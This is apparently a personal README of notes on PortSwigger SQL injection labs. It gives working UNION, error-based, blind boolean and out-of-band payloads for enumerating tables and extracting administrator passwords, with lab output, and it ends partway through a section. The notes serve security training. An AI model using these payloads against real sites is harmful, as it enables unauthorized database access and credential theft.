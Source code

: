 # Portswigger lab Scripts with notes

1. What is SQL Injection?

--> Vulnerability that interferes SQL queries that application makes to a database. 
           Impact: View sensitive information, alter data and delete data.
           It bypasses SQL queries. Suppose a login page asks for username and password. At username you add admin'-- . The SQL query looks like SELECT * from users where username = 'admin' --, password = . -- comments out rest of the query and ' closes the string, logs in as admin. 


2. Types of SQL Injection?

a. In-band (Classic): When SQL payload reflects on the application. Easy to exploit. 

       i) Error-based: Forces database to generate error, giving attacker information.
                      Eg: www.evil.com/app.php?id=' . It gives output as eror in sql syntax with sql server version.
      
      ii) Union-based: UNION SQl operator to combine result of two queries into single result.
                     Eg: www.evi.com/app.php?id=' UNION SELECT username, password FROM users-- . It gives username and password.
      
b. Inferential (Blind): No transfer of data via web app. Only performs when there are certain codition. Takes Long to exploit.
     
        i) Boolean-based: Uses boolean condition to return different result depending whether query returns true or false result.
                          URL: www.evil.com/app.php?id=1. 
                          Payload #1(False): www.evil.com/app.php?id=1 and 1=2. Doesn't give product detail because false.
                          Payload #2(True): www.evil.com/app.php?id=1 and 1=1. Givs product detail because true.
                          Backend Query: select title ftom product where id=1 and 1=1
                          
       ii) Time-based: Delays the result for a specific time, indicating SQL query presence. Eg: If first character of admin hash passowrd is a',wait for 10 seconds. If it takes 10 seconds, it contains a has first password otherwise it doesnot.
      
c. Out-of-band: Using protocol to trigger SQL Injection. Results come to your system like burpcollab.  Eg: '; exec master..xp_dirtree '//burpcollaborator/a'-- 


3. How to find SQL Injection?

--> It depends on blackbox(little info given) and whitebox(source-code given)

       Blackbox: 

              1. Map the aplication: input vectors, endpoints, how app works, etc.
              2. Fuzzing: add SQl characters such as ' or " and look for errors, submit boolean condition, time delay query and out of band query to look for responses.

       Whitebox:

              1. Enable web server and database logging.
              2. Map the application: regex search in code that talk to database.
              3. Code review: Follow code path for input vectors.
              4. Tesst SQLi vulnerability.

********** ERROR BASED **********

***** STEP #1: Determine # of columns *****

 Way #1: UNION
     
      select ? from table1 UNION select NULL, NULL--
       --> error: incorrecet number of columns.
       
      select ? from table1 UNION select NULL, NULL, NULL--
       --> 200 ok: correct number of columns.
       
 Way #2: ORDER BY
 
        select a,b from table1 order by 2-- 
                               order by 2#
        
***** STEP #2: Determine data type of column *****

        select a, b, c from table1 UNION select 'a', NULL, NULL--
        select a, b, c from table1 UNION select NULL, 'a', NULL--
        select a, b, c from table1 UNION select NULL, NULL, 'a'--
         --> error: column is not type text
         --> no error: column is type text.

        for oracle: 'union select 'a', 'a' from dual -- 


***** STEP #3: Finding database version *****

     oracle: select banner from v$version
             select version from v$instance

     mysql and microsoft: select @@version

     postgresql: select version()

        for oracle: ' union select banner, null from v$version--
        for mysql and microsoft: 'UNION select @@version,'a'%23


***** STEP #4: Finding username and password *****

        union select username, password from users--

       ** if only one field works concatenate string based on database

         union select null, username || password from users --  > postgresql and oracle
          "     "       " , username + password from users -- > microsoft
          "      "      " , username  password from users -- > mysql
                             concat(username,password)

      Found username and password: Gifts' union select null, username || '~' || password from users--
            administrator~z5wp402vuidu2y59oaai


***** STEP #5: Finding Database Content *****

        oracle:	SELECT * FROM all_tables
                SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE' 

        non-oracle: SELECT * FROM information_schema.tables
                    SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

        1) * is a place holder for tables NAME. search For information_schema.tables on google to get table names  #(users_table)

               non-oracle:  'union select table_name, null from information_schema.tables --
               oracle: ' union select table_name,null from all_tables--
        
        2) It contains lists of database name. lets pick users_acinmi for non-oracle and users_roomix for oracle then  #(username_column,password_column)
              non-oracle: ' UNION SELECT column_name, null from information_schema.columns WHERE table_name = 'users_acinmi' --
                                     output: username_wuiqfp
                                             password_fhdiit 

                oracle: ' union select column_name,null from all_tab_columns where table_name='USERS_ROOIMX'--
                                     output: USERNAME_ICWHMD
                                             PASSWORD_DETRFJ                                 
 

        3) Output the username and password  #(administrator_table)

                non-oracle: ' UNION select username_wuiqfp, password_fhdiit from users_acinmi--
                                    output: administrator
	                                    9ro90x5y3ztmsv21nwm0

                oracle: ' union select USERNAME_ICWHMD,PASSWORD_DETRFJ from USERS_ROOIMX--
                                     output: administrator
	                                     x7e2jmfnqacfb1bxe3m0



********** BLIND SQL **********

*** Blind SQLI with conditional responses ***

1. Confirm that the paramter is vulnerable to blind SQLi

cookie query:   select tracking-id from tracking-table where trackingId='23f23fdxqd'

        -> If tracking id exists -> query return value -> welcome back msg

        -> If tracking id doesn't exists -> query returns nothing -> no welcome msg

select tracking-id from tracking-table where trackingId='23f23fdxqd' and 1=1--'
        -> TRUE -> WELCOME back msg

select tracking-id from tracking-table where trackingId='23f23fdxqd' and 1=0--'
        -> FALSE -> no WELCOME back msg

2. Confirm that we have users table

select tracking-id from tracking-table where trackingId='23f23fdxqd' and (select 'x' from users LIMIT 1) = 'x'--'
-> TRUE -> users table exists in database

3. Confirm that username administrator exists users table

select tracking-id from tracking-table where trackingId='23f23fdxqd' and (select username from users where username='administrator') = 'administrator'--'
        -> administrator user exists

4. Enumerate password of the administrator user

select tracking-id from tracking-table where trackingId='23f23fdxqd' and (select username from users where username='administrator' and LENGTH (password)>1) = 'administrator'--' 
        -> Use burp to check how many length is there in the password. $1$. 20 returned false, so it contains 20 character.

  **** Using substring to find password. It checks one by one character ****

select tracking-id from tracking-table where trackingId='23f23fdxqd' and (select substring(password,1,1) from users where username='administrator') = 'a'--'
        -> burp,(payload-type=bruteforcer): $a$. If 1st letter contains letter 'c' go to 2nd letter.
        -> burp payload(cluster-bomb): ' and (select substring(password,$1$,1) from users where username='administrator' and LENGTH (password)>1) = '$a$'--' 
        -> 1st type: number from 1 to 20. 2nd type: bruteforcer.



***** Blind SQLI with conditional errors *****

1. Confirm that the parameter is vulnerable

' || (select '') || '  > 200ok: non-oracle
' || (select '' from dual) || '  > 200ok: oracle

2. Confirm that the users table exists in the database